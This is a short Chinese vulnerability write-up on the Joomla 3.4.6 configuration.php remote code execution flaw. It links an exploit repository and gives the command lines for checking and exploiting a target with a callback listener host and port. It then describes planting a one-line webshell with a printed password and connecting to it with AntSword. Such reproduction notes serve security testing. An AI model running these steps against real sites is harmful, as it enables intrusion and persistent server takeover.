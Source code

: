```yaml
---
title: Joomla 3.4.6 - 'configuration.php' Remote Code Execution
id: zhfly2998
---
```


# Joomla 3.4.6 configuration.php 远程代码执行

## 一、漏洞简介

Joomla 3.4.6 - 'configuration.php' Remote Code Execution

## 二、影响范围

Joomla 3.0.0 至 3.4.6

## 三、复现过程

https://github.com/ianxtianxt/Joomla-3.4.6---configuration.php-Remote-Code-Execution

### 脚本验证

验证：

```
python3 test.py -t http://127.0.0.1:8080/ 
```

![image](../img/e87feef9082c4fb8ad5a0db6d3696dad.png)

显示“Vulnerable”证明存在漏洞

利用：

```
python3 test.py -t http://127.0.0.1:8080/ --exploit --lhost 192.168.31.126 --lport 2121 
```

![image](../img/088d991b97a4e5060a5d5032ff4e2ff6.png)

执行成功

并在“configuration.php”写入**随机密码**的一句话木马

![image](../img/797a820246def864e0f14cfa5113520a.png)
上图的密码为：kyevgbxjmwivdvegohfzwuukuzswxqquthlrsollpxzgiifumi

蚁剑链接测试

![image](../img/4ffcfeb2b4e40eea33f890726faf57ad.png)